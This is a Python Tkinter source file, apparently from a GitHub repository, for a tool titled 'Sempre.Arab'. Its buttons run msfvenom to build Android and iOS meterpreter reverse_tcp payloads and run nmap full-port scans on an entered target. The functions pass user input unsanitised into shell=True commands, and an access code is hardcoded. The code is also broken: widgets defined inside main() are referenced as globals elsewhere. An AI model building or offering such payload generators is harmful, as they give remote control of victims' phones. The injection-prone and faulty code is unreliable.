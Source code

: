 import subprocess
from tkinter import *
import gettext

def create_android_payload():
    lhost = lhost_entry.get()
    lport = lport_entry.get()
    output_file = output_file_entry.get()
    command = f"msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} -f raw -o {output_file}"
    subprocess.run(command, shell=True)

def create_ios_payload():
    lhost = lhost_entry.get()
    lport = lport_entry.get()
    output_file = output_file_entry.get()
    command = f"msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST={lhost} LPORT={lport} -f raw -o {output_file}"
    subprocess.run(command, shell=True)

def scan_ports():
    target = target_entry.get()
    command = f"nmap -p- {target}"
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    open_ports = []
    for line in result.stdout.splitlines():
        if "/tcp" in line:
            port = line.split("/")[0]
            open_ports.append(port)
    open_ports_label.config(text=(_("Open ports: ") + ', '.join(open_ports)))

def enter_access_code():
    if access_code_entry.get() == "Science":
        access_granted_label.config(text=_("Access Granted"), fg="green")
        lang_label.pack()
        lang_english_button.pack()
        lang_arabic_button.pack()
    else:
        access_granted_label.config(text=_("Access Denied"), fg="red")

def switch_language_to_english():
    lang = gettext.translation('base', localedir='locales', languages=['en'])
    lang.install()
    update_texts()

def switch_language_to_arabic():
    lang = gettext.translation('base', localedir='locales', languages=['ar'])
    lang.install()
    update_texts()

def update_texts():
    payload_label.config(text=_("Payload Creation"))
    lhost_label.config(text=_("LHOST:"))
    lport_label.config(text=_("LPORT:"))
    output_file_label.config(text=_("Output File Name:"))
    android_button.config(text=_("Create Android Payload"), command=create_android_payload)
    ios_button.config(text=_("Create iOS Payload"), command=create_ios_payload)
    port_scan_label.config(text=_("Port Scanning"))
    target_label.config(text=_("Enter target IP:"))
    scan_button.config(text=_("Scan Ports"), command=scan_ports)
    access_code_label.config(text=_("Enter Access Code:"))
    access_button.config(text=_("Enter"), command=enter_access_code)
    access_granted_label.config(text="")
    lang_label.config(text=_("Choose Language:"))
    lang_english_button.config(text=_("English"), command=switch_language_to_english)
    lang_arabic_button.config(text=_("Arabic"), command=switch_language_to_arabic)

def main():
    root = Tk()
    root.title(_("Sempre.Arab"))
    root.geometry("400x300")

    # Payload Creation Section
    payload_label = Label(root, text=_("Payload Creation"), font=("Arial", 12, "bold"), fg="blue")
    payload_label.pack()

    lhost_label = Label(root, text=_("LHOST:"))
    lhost_label.pack()

    lhost_entry = Entry(root)
    lhost_entry.pack()

    lport_label = Label(root, text=_("LPORT:"))
    lport_label.pack()

    lport_entry = Entry(root)
    lport_entry.pack()

    output_file_label = Label(root, text=_("Output File Name:"))
    output_file_label.pack()

    output_file_entry = Entry(root)
    output_file_entry.pack()

    android_button = Button(root, text=_("Create Android Payload"), command=create_android_payload)
    android_button.pack()

    ios_button = Button(root, text=_("Create iOS Payload"), command=create_ios_payload)
    ios_button.pack()

    # Port Scanning Section
    port_scan_label = Label(root, text=_("Port Scanning"), font=("Arial", 12, "bold"), fg="green")
    port_scan_label.pack()

    target_label = Label(root, text=_("Enter target IP:"))
    target_label.pack()

    target_entry = Entry(root)
    target_entry.pack()

    scan_button = Button(root, text=_("Scan Ports"), command=scan_ports)
    scan_button.pack()

    open_ports_label = Label(root, text="")
    open_ports_label.pack()

    # Access Code
    access_code_label = Label(root, text=_("Enter Access Code:"), font=("Arial", 12, "bold"), fg="red")
    access_code_label.pack()

    access_code_entry = Entry(root)
    access_code_entry.pack()

    access_button = Button(root, text=_("Enter"), command=enter_access_code)
    access_button.pack()

    access_granted_label = Label(root, text="")
    access_granted_label.pack()
